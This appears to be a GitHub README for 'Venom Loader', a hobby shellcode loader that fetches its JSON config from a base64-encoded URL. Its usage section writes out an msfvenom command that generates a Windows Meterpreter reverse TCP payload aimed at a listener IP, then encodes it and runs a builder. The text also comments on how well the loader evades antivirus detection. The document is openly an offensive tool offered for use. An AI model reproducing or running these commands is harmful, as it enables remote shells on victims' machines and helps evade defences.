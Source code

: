 
# Venom Loader

A tiny shellcode loader I am having fun with. It reads a JSON file from a base64 encoded URL. It works rather nicely and works mostly as advertised.




## Usage/Examples

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<LISTENER_IP> LPORT=<LISTENER_PORT> -f raw -o WHATEVER.bin
base64 WHATEVER.bin > WHATEVERb64.bin
./builder.sh <http://IP/config> main.go
```
At this point the loader as well as a basic payload should be ready. Modify the main.go and instr file to suit your situation.
Keep in mind that the config is a json file that should be located in the same dir as the http server. This tries to be evasive but has various degrees of success with it. A meterpreter shell will be a coin toss on wether or not it gets caught but other payloads like popping calc, executing a fixed amount of commands work very nicely.
## To-Do

- Make a builder that automates creation of msf payload and base64 encoding it.
- Remove dependancy on https://github.com/D3Ext/maldev/ to reduce built binary size.
- Come up with a better name for the damned thing.

Test
